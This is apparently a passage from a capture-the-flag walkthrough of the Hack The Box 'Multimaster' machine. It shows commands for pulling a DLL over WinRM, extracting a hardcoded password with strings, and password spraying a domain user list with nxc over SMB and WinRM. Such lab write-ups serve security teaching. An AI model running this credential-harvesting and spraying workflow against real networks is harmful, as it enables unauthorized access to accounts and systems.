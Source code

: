 {% tab title="2. Copy DLL to a Writeable Dir" %}
```bash
# move to writeable directory
cd C:\Windows\System32\spool\drivers\color
# copy the DLL
copy c:\inetpub\wwwroot\bin\MultimasterAPI.dll .
```
{% endtab %}

{% tab title="3. DLL  Transfer" %}
{% code overflow="wrap" %}
```powershell
# from tushikikatomo's WinRM session

# move to the directory
cd C:\Windows\System32\spool\drivers\color
# download the DLL
download MultimasterAPI.dll
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% code overflow="wrap" %}
```bash
# inspect file type
file MultimasterAPI.dll
# run strings on the file
strings MultimasterAPI.dll | grep pass
# run strings with 16-bit encoding on the file 
strings -eb MultimasterAPI.dll | grep pass
```
{% endcode %}

<figure><img src="../../.gitbook/assets/multi_strings.png" alt=""><figcaption><p>Figure 27: Running strings with different encoding options.</p></figcaption></figure>

When we use the newly obtained password to, once again, **password spray** our our domain username list, we get a hit back (Figure 28).

```bash
# write the password to a file
echo "D3veL0pM3nT!" > db_pass
# password spray using the domain username list
nxc smb 10.10.10.179 -u sid_users -p db_pass | grep +
# check remote access
nxc winrm 10.10.10.179 -u sbauer -p db_pass
# rename the password file
mv db_pass sbauer_pass
```
